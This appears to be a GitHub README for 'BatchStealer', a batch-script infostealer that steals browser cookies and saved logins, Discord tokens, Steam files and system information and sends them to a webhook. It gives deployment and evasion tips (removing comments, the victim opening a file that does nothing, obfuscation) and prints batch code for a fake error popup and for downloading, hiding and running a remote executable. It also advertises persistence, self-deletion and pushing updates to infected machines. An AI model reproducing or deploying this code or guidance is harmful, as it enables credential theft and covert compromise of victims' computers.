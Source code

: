 # BatchStealer | [Automatic Builder](https://github.com/Takaovi/BSBuilder) | [BatchStealer Example](https://github.com/Takaovi/BatchStealer-Example)

### 📜 A batch script for taking things and sending them to a webhook 

3.4.2021 < FUD [(Virustotal)](https://www.virustotal.com/gui/file/6dfc563da383268f927fd90834afe1f2b5757933ea7527029c94f5aa6ab08c0d/detection)

![Made with love in Finland](https://madewithlove.now.sh/fi?heart=true&colorB=%23387fdc&template=plastic)

# Screenshots

 <details>
  <summary>Discord Capture Example</summary>
 
  <p align="center">
  <img src="https://i.imgur.com/8tmguuS.jpg">
  </p>
  
  *Example report, not a real user. Firefox has no files as it wasn't installed on the machine.*
</details>

# How to use

### ⚠️ Windows 10 build 17063, or later (*cURL* is included)

1. Change the webhook to yours.
2. Remove the fail-safes. ("goto xxx")
3. Run the batch file.

### ❌ Get rid of the comments 📝
* Do a regex search on notepad++, match `^::.*\n` and replace with nothing.

### ⛔ Avoid
* Just changing the webhook and doing nothing else. 
  * If the batch file does nothing the user will open it to see what's wrong.

# Features

### 💉 Steals

*Almost everything is encrypted, I haven't had the patience to do that on a batch file*

 <details>
  <summary>Full system information</summary>
 
   * OS Name & Version
   * Product ID
   * System Manufacturer
   * Processor(s)
   * BIOS Version
   * Time Zone
   * Total Physical Memory
   * Network Card(s)
   * And more...
</details>
<details>
  <summary>Chrome</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Opera</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Vivaldi</summary>
 
  * Cookies
  * History
  * Shortcuts
  * Bookmarks
  * Login Data
</details>
<details>
  <summary>Firefox</summary>
 
  * Logins
  * key3
  * key4
  * Cookies (Plain text!)
</details>
<details>
  <summary>osu!</summary>
 
 * osu!.cfg
</details>
<details>
  <summary>Discord</summary>
 
  * File containing a Token
  * Other various files
</details>
<details>
  <summary>Steam</summary>
 
  * Logged in users (Username, email)
  * Hidden ssfn files
</details>
<details>
  <summary>Minecraft</summary>
 
* Launcher profiles and accounts
</details>
<details>
  <summary>Growtopia</summary>
 
  * Save.dat
</details>

# Other manually addable features

Fake error message
```batch
set "vpath="

...

if not "%~dp0"=="%vpath%\" (
start /min /b mshta vbscript:Execute("Msgbox(""Bodytext""+vbCrLf+vbCrLf+""Anotherbody""),16,""Titletext"":window.close")
)

...
```

Download & run payload
```batch
set "vpath="
set "webhook="

cd %vpath%
...

:: PAYLOAD - REMOVE GOTO IF YOU WANT THE SCRIPT TO DOWNLOAD AND RUN A FILE SOMEWHERE
:: ----------------------------------------------------------------------------------
goto skipcustomdownload
	curl --silent --output /dev/null -i -H "Accept: application/json" -H "Content-Type:application/json" -X POST --data "{\"content\": \"```Downloading and starting a custom file from\n%customdownloadurl% to %vpath%\%customfilename%```\"}" %webhook%
	set "customdownloadurl=https://external.ext/file.exe"
        set "customfilename=c.exe"
	IF EXIST "%customfilename%" GOTO waitloop4
	curl --silent -L --fail "%customdownloadurl%" -o "%customfilename%"
	>NUL attrib "%vpath%\%customfilename%" +h
	:waitloop4
	IF EXIST "%customfilename%" GOTO waitloopend4
	timeout /t 5 /nobreak > NUL
	:waitloopend4
	2> NUL start "%customfilename%"
:skipcustomdownload

...
```

# 📑 Other features 

  * Delete itself after execution

  * Add itself to Task Scheduler (CMD window will be invisible when executed)
     * Will make files to `C:\ProgramData` by default. (Hidden)

  * Push updates to infected machine(s) **(Beta, expect bugs and crashes)**
    * Make sure to have a working batch file's source on the link, it will replace everything.
    * Ability to target specific users (Check username)
    
  * Take screenshot


### Included on the [Automatic Builder](https://github.com/Takaovi/BSBuilder)
  * Add garbage code (Confuse/Fill)

  * ~~Obfuscate~~ Not made yet.

# Todo
* DNS poisoning
  * Simple edit of the hosts file (Would require administrator)
* Other interesting stuff...

# 💡 Support

* If you want to support the project do a pull request.
  * The pull request could be a new steal etc.

# ㊙️ Obfuscation (Read carefully)
* You can try [this](https://github.com/SkyEmie/batch-obfuscator)
  * RECURRING DOES NOT WORK WITH THIS. (Script exits when it reaches it)
  * "START AS ADMINISTRATOR" WILL GENERATE A VISIBLE ERROR MESSAGE ON THE CMD BOX.

# Thanks

* [Screenshot-cmd (github)](https://github.com/chuntaro/screenshot-cmd)
# Legal

None of the authors, contributors, or anyone else connected with this open source project, in any way whatsoever, can be responsible for your use of the information or the application contained in or linked from this repository.

Under Section 107 of the Copyright Act 1976, allowance is made for "fair use" for purposes such as criticism, comment, news reporting, teaching, scholarship and research. Fair use is a use permitted by copyright statute that might otherwise be infringing. Non-profit, educational or personal use tips the balance in favor of fair use.

If you don't agree with any of our disclaimers above, do not read the code or download anything from our repository as you have no permission to read and explore our repository until you agree.
